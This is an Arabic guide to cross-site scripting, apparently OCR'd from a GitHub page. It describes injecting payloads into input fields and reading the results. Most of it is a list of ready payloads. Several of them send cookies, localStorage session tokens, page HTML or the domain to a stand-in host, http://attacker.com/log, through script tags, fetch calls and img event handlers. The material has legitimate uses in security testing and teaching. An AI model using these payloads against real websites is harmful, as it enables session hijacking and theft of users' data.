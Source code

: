   - يُرسل الحقن إلى نقطة إدخال (مثل حقل تعليق) عبر طلب POST.
  - يسجل البيانات المستلمة في الخادم عندما يشاهد المستخدمون الصفحة.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لنقاط إدخال متعددة.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **طلبات الشبكة**: تحقق من الطلبات المرسلة إلى `http://attacker.com/log` من المستخدمين.
    - **وحدة التحكم**: تحقق من ظهور تنبيهات أو أخطاء في Console عند زيارة الصفحة.
    - **تغييرات DOM**: تحقق من إعادة التوجيه أو تعديل الصفحة.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123` من مستخدم آخر، فهذا يؤكد نجاح الحقن.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد النقاط القابلة للاستغلال.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف حقنًا إضافية (مثل `<iframe src="javascript:alert('XSS')">` أو `<div onclick="fetch('http://attacker.com/log?c='+document.cookie)">`).
  - جرب أحداث أخرى (مثل `onfocus`، `onblur`) أو وسوم أخرى (مثل `<input>`، `<object>`).
  - اختبر سياقات JavaScript معقدة (مثل `eval(...)` أو `setTimeout(...)`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<input type=text onfocus="fetch('http://attacker.com/log?c='+document.cookie)">` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. حقن باستخدام وسوم HTML:
- <script>alert('XSS')</script>: ينفذ تنبيهًا عند العرض.
- <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>: يرسل ملفات تعريف الارتباط.
- <script>document.location='http://attacker.com'</script>: يعيد توجيه المستخدم.
- <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>: يرسل محتوى الصفحة.
- <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>: يرسل رمز الجلسة.

2. حقن باستخدام وسوم صور أو أحداث:
- <img src=x onload="alert('XSS')">: ينفذ تنبيهًا عند تحميل الصورة.
- <img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">: يرسل ملفات تعريف الارتباط.
- <img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">: يرسل النطاق.
- <img src=x onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">: يرسل رمز الجلسة عند تمرير المؤشر.
- <img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">: يرسل محتوى الصفحة.

